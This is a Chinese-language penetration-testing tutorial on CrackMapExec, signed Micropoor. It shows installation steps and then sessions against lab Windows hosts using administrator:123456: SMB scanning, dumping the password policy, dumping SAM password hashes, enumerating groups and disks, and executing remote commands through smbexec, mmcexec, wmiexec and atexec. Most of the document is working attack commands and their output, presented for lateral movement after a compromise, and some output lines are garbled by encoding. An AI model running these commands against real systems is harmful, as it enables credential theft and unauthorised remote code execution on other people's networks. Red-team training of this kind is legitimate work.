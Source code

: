 **注：**请多喝点热水或者凉白开，可预防**肾结石，痛风**等。

CrackMapExec弥补了MSF4下auxiliary，scanner模块下的Command执行方式，但MSF5已解决该问题。在MSF4下，该框架针对后渗透的横向移动经常出现，虽然MSF5已解决该问题，但该框架在配合bloodhound与empire依然目前有一定优势。

安装方式：from Wiki：

### Kali：
```bash
apt‐get install crackmapexec
```

但作者推荐pipenv安装：
```bash
apt‐get install ‐y libssl‐dev libffi‐dev python‐dev build‐essential
pip install ‐‐user pipenv
git clone ‐‐recursive https://github.com/byt3bl33d3r/CrackMapExec
cd CrackMapExec && pipenv install
pipenv shell
python setup.py install
```

### Mac OSX：
```bash
pip install ‐‐user crackmapexec
```

默认为100线程
```bash
cme smb 192.168.1.0/24
SMB 192.168.1.4 445 JOHN‐PC [*] Windows 7 Ultimate 7601 Service Pack 1
x64 (name:JOHN‐PC) (domain:JOHN‐PC) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
```
![](/img/ebb1d4734cf101b0af75130b24dc2797.jpg)

密码策略
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐pass ‐pol
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping password info for domain: WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password length: None
SMB 192.168.1.119 445 WIN03X64 Password history length: None
SMB 192.168.1.119 445 WIN03X64 Maximum password age: 42 days 22 hours 47 minutes
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Password Complexity Flags: 000000
SMB 192.168.1.119 445 WIN03X64 Domain Refuse Password Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Store Cleartext: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Lockout Admins: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Clear Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password No Anon Change: 0
SMB 192.168.1.119 445 WIN03X64 Domain Password Complex: 0
SMB 192.168.1.119 445 WIN03X64
SMB 192.168.1.119 445 WIN03X64 Minimum password age: None
SMB 192.168.1.119 445 WIN03X64 Reset Account Lockout Counter: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Locked Account Duration: 30 minutes
SMB 192.168.1.119 445 WIN03X64 Account Lockout Threshold: None
SMB 192.168.1.119 445 WIN03X64 Forced Log off Time: Not Set 
```
![](/img/6caecd2d3353752952b4fa71fb5cff9c.jpg)

list hash
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Dumping SAM hashes
SMB 192.168.1.119 445 WIN03X64 Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
SMB 192.168.1.119 445 WIN03X64 Guest:501:aad3b435b51404eeaad3b435b51404ee:67f33d2095bda39fbf6b63fbadf2313a:::
SMB 192.168.1.119 445 WIN03X64 SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:f4d13c67c7608094c9b0e39147f07520:::
SMB 192.168.1.119 445 WIN03X64 IUSR_WIN03X64:1003:dbec20afefb6cc332311fb9822ba61ce:68c22a11c400d91fa4f66ff36b3c15dc:::
SMB 192.168.1.119 445 WIN03X64 IWAM_WIN03X64:1004:ff783381e4e022de176c59bf598409c7:7e456daac229ddceccf5f367aa69a487:::
SMB 192.168.1.119 445 WIN03X64 ASPNET:1008:cc26551b70faffc095feb73db16b65ff:fec6e9e4a08319a1f62cd30447247f88:::
SMB 192.168.1.119 445 WIN03X64 [+] Added 6 SAM hashes to the database
```
![](/img/d372f49b841caef362dbced12e0a0149.jpg)

枚举组
```bash
root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
SMB 192.168.1.119 445 WIN03X64 [\*] Windows Server 2003 R2 3790 Service
Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
SMB 192.168.1.119 445 WIN03X64 [+] Enumerated local groups
SMB 192.168.1.119 445 WIN03X64 HelpServicesGroup membercount: 1
SMB 192.168.1.119 445 WIN03X64 IIS_WPG membercount: 4
SMB 192.168.1.119 445 WIN03X64 TelnetClients membercount: 0
SMB 192.168.1.119 445 WIN03X64 Administrators membercount: 1
SMB 192.168.1.119 445 WIN03X64 Backup Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Distributed COM Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Guests membercount: 2
SMB 192.168.1.119 445 WIN03X64 Network Configuration Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Performance Log Users membercount: 1
SMB 192.168.1.119 445 WIN03X64 Performance Monitor Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Power Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Print Operators membercount: 0
SMB 192.168.1.119 445 WIN03X64 Remote Desktop Users membercount: 0
SMB 192.168.1.119 445 WIN03X64 Replicator membercount: 0
SMB 192.168.1.119 445 WIN03X64 Users membercount: 3
```
![](/img/4136be4626226c3dc06862d42b2ede35.jpg)

分别支持4种执行Command，如无--exec-method执行，默认为wmiexec执行。  
* mmcexec   
* smbexec   
* wmiexec   
* atexec  

基于smbexec执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method smbexec ‐x 'net user'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via smbexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S \\ ���û��ʻ�
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S Administrator Guest
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ����������ϣ�������һ����������
```
![](/img/751f7fd147dc4a1810d00aa1b5cde041.jpg)

基于dcom执行Command
```bash
root\@John:\~\# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method mmcexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via mmcexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](/img/64443a4bd4d862023bcf82a0d8978c41.jpg)

基于wmi执行Command
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method wmiexec ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via wmiexec
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](/img/f97bf667d2f2bd316cefcb12550a4845.jpg)

基于AT执行Command

目标机：无运行calc进程  
![](/img/9dbb8af94a4ef3de96eb1476162a3a9d.jpg)

```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method atexec ‐x 'calc'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via atexec
```
![](/img/7fdfdafcff3b66eebbcb49a359450a83.jpg)


默认采取wmiexec执行Command，参数为-x
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐x 'whoami'
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
```
![](/img/49adc1d483d3df2a5c12b432c61dc00d.jpg)

枚举目标机disk
```bash
root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
5BMI9HGC42S\\administrator:123456 (Pwn3d!)
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Enumerated disks
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S C:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S D:
SMB 192.168.1.6 445 WIN‐5BMI9HGC42S E:
```

### 附录：
**解决出现：STATUS_PIPE_DISCONNECTED**  
![](/img/a7a5a32340bdb7651266594f5dd0dbc7.jpg)

改成经典

![](/img/cbc0c19d3ddbc53c165d217f51289e5c.jpg)

解决出现错误：UnicodeDecodeError:

升级impacket  

![](/img/f2f8fc124237c8317e634b28c6ff4212.jpg)

>   Micropoor
